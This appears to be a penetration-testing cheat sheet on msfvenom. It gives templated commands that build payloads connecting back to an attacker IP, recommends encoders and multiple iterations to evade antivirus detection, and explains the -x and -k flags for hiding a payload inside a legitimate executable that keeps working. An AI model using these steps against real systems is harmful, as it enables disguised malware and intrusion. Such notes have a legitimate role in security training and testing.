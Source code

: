 ```
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
    x86/xor_poly                  normal     XOR POLY Encoder
```

The best one is shikata_ga_nai and powershell_x64.

```
msfvenom -a <architecture> -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> -f <outputFormat> -o <filepath/file.fileformat>
```

We can omit the -a as we can enter the architecture in the payload

```
msfvenom -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> -f <outputFormat> -o <filepath/file.fileformat>
```

Encoding

```
msfvenom -a <architecture> -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> -e <encoderOfChoice> -f <outputFormat> -o <filepath/file.fileformat>
```

Encoding with the varied iterations

```
msfvenom -a <architecture> -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> -i <numberOfIterations> -e <encoderOfChoice> -f <outputFormat> -o <filepath/file.fileformat>
```

```
msfvenom -a <architecture> -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> --iterations <numberOfIterations> -e <encoderOfChoice> -f <outputFormat> -o <filepath/file.fileformat>
```

Encoding is a technique that we can use to avoid getting detected by any anti virus softwares

use the -x or -k flags to get that level

```
msfvenom -a <architecture> -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> --iterations <numberOfIterations> -e <encoderOfChoice> -x <pathToFile> -f <outputFormat> -o <filepath/file.fileformat>
```

Using only -x flag will erase the functionality of the selected file binary or exe in order to retain the original functionality we need use the -k flag as well doing so will retain the original functionality and still inject the file with the payload

```
msfvenom -a <architecture> -p <operatingSystem>/<archtecture>/<payload> LHOST=<attack-ip> LPORT=<connectingPort> --iterations <numberOfIterations> -e <encoderOfChoice> -k -x <pathToFile> -f <outputFormat> -o <filepath/file.fileformat>
```
